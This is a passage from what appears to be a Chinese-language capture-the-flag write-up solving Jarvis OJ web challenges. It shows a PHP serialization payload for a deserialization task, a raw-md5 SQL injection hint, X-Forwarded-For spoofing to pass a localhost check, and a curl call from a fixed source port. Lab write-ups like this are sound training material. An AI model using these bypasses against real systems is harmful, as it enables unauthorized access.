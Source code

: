 ```
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = 'pctf.php') {
			$this -> file = $filename;
		}
	}
$m = new Shield();
echo serialize($m);
?>
```
![aaa.png][10]

--------
0x10 Login 250
--

在header里面发现
```
Hint: "select * from `admin` where password='".md5($pass,true)."'"
```
google到了
http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/
于是拿到flag

--------
0x11 LOCALHOST 150
--
提示要本地访问
```
加上
X-Forwarded-For: 127.0.0.1
```
得到flag

--------------
0x12 PORT51 100
--
51端口访问
curl --local-port 51 web.jarvisoj.com:32770
得到flag


  [1]: http://www.tuicool.com/articles/zEfuEz
  [2]: https://img.scanfsec.com/img/2016122082157378.png
  [3]: https://img.scanfsec.com/img/2016123993631644.png
  [4]: https://img.scanfsec.com/img/2016123187191897.png
  [5]: https://img.scanfsec.com/img/2016123272738253.png
  [6]: https://img.scanfsec.com/img/2016122761767173.png
  [7]: https://img.scanfsec.com/img/2016121231310862.png
  [8]: https://img.scanfsec.com/img/201612887644193.png
  [9]: https://img.scanfsec.com/img/201612259069001.png
  [10]: https://img.scanfsec.com/img/2016122467216741.png
